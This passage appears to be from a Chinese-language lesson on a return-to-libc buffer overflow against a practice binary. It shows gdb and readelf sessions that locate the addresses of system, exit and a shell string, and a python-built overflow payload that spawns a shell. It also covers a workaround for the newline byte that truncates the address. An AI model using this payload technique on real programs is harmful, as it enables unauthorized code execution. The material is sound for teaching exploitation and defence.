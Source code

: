   ```
  $ ldd bof
          linux-gate.so.1 =>  (0xf7ffd000)
          libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e05000)
          /lib/ld-linux.so.2 (0x56555000)
  $ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
     ...
   1457: 0003ab80  55 FUNC  WEAK  DEFAULT  13 system@@GLIBC_2.0
     ...
  $ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
     ...
    141: 0002e9b0  31 FUNC  GLOBAL DEFAULT  13 exit@@GLIBC_2.0
     ...
  $ strings -tx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
   15ba3f /bin/sh
  $ gdb -q
  (gdb) p/x 0xf7e05000 + 0x0003ab80
  $1 = 0xf7e3fd80
  (gdb) p/x 0xf7e05000 + 0x0002e9b0
  $2 = 0xf7e339b0
  (gdb) p/x 0xf7e05000 + 0x15ba3f
  $3 = 0xf7f60a3f
  (gdb) 
  ```

把获得的system、exit、"/bin/sh"的地址填入溢出缓冲区，从前一课时计算到的偏移140之后开始填入。通过gdb运行发现shell并未启动，原因是："/bin/sh"的地址中包含换行符0a，argv[1]会被换行符截断。

```
$ gdb -q --args ./bof $(python -c 'print "A" * 140 + "\x80\xfd\xe3\xf7" + "\xb0\x39\xe3\xf7" + "\x3f\x0a\xf6\xf7" + "\0\0\0\0"')           # "/bin/sh"地址中包含0x0a(\n)
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) b *0x08048527
Breakpoint 1 at 0x08048527
(gdb) r
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
Breakpoint 1, 0x08048527 in main ()
(gdb) x/20x $esp
0xffffd51c:     0xf7e3fd80      0xf7e339b0      0xffff003f      0xffffd5c4  # 地址被截断为0xffff003f
0xffffd52c:     0x00000000      0x00000000      0x00000000      0xf7fb7000
...
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e3fd80 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e339b0 <__GI_exit>
(gdb) 
```

这时候可以考虑更换命令字符串，使用"sh\0"，一般来说PATH环境变量中已经包含/bin目录，因此只需要找到一个"sh"字符串，将其地址作为system()函数的参数即可。我们在程序自身空间内就可以找到"sh"这个字符串，同样使用find命令，实际上，此处的sh是".gnu.hash"这个字符串中的一部分。

```
(gdb) info proc mappings 
process 29788
Mapped address spaces:

    Start Addr  End Addr    Size   Offset objfile
     0x8048000 0x8049000   0x1000    0x0 /home/sh4rk/pwnable/bof
     0x8049000 0x804a000   0x1000    0x0 /home/sh4rk/pwnable/bof
     0x804a000 0x806b000   0x21000   0x0 [heap]
(gdb) find /b 0x8048000, 0x8049000, 's', 'h', 0
0x8048d79
1 pattern found.
(gdb) x/s 0x8048d79
0x8048d79:   "sh"
(gdb) x/s 0x8048d72
```